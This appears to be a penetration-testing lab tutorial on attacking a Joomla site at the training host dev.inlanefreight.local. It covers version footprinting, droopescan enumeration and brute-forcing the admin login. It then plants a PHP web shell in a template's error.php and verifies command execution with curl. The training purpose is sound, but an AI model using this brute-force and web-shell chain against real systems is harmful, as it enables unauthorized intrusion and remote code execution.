 # Discovery/Footprinting
```bash
$ curl -s http://dev.inlanefreight.local/ | grep Joomla
$ curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

# Enumeration
```bash
$ sudo pip3 install droopescan
$ droopescan scan joomla --url http://dev.inlanefreight.local/
```

The default administrator account on Joomla installs is admin, but the password is set at install time, so the only way we can hope to get into the admin back-end is if the account is set with a very weak/common password and we can get in with some guesswork or light brute-forcing. We can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```bash
$ sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

# Attacking Joomla
## Abusing Built-In Functionality
Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

From here, we can click on Templates on the bottom left under Configuration to pull up the templates menu.

Next, we can click on a template name. Let's choose protostar under the Template column header. This will bring us to the Templates: Customise page.

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the error.php page. We'll add a PHP one-liner to gain code execution as follows.

system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

Once this is in, click on Save & Close at the top and confirm code execution using cURL.

curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id